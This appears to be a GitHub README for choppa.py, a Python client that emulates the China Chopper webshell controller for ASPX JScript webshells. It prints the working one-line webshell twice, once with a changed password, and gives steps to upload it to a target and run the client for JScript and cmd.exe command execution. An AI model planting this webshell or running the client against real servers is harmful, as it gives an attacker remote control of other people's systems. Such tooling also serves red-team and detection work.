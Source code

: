 
# choppa.py

choppa.py is a python implementation of caidao.exe, which includes minimal implementations
of caidao.exe's features exclusively for ASPX Jscript variants of China Chopper webshells such as:

<script language="JScript" runat="server">function Page_Load(){eval(Request["password"],"unsafe");}</script>

Emulated caidao.exe features include:
- inline Jscript execution
- Virtual terminal emulation with Jscript and cmd.exe /c

choppa.py is not fully featured, and does not include file upload/download or support
for other webshell types referenced in caidao.exe such as ASP and PHP. These features are subject 
to future implementations.

#########################
INSTRUCTIONS:
#########################
1. Change webshell password

<script language="JScript" runat="server">function Page_Load(){eval(Request["Nonqjbexznaoynzrfuvfgbbyf"],"unsafe");}</script>

2. Upload ASPX webshell on target
3. python choppa.py -p Nonqjbexznaoynzrfuvfgbbyf -m MODE
